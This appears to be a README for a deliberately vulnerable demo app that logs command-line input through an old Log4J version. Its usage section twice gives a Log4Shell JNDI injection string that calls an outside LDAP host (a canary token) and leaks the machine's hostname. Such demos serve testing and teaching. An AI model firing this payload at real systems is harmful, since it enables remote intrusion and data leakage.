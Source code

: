 # TheWorstApp 

## Introduction

This terrible app will use an old version of Log4J and attempt to log to console whatever is passed to it as a command line argument.

## How To Use

To test simply set your argument in your IDE (or via command line) to something like: 

"${jndi:ldap://x${hostName}.L4J.ltmnsdl5tf7w012r1p6rnp1zv.canarytokens.com/a} He's not the messiah he's a very naughty boy!"

If using a release build simply type into your command prompt:

java -jar TheWorstApp.jar "${jndi:ldap://x${hostName}.L4J.ltmnsdl5tf7w012r1p6rnp1zv.canarytokens.com/a} He's not the messiah he's a very naughty boy!"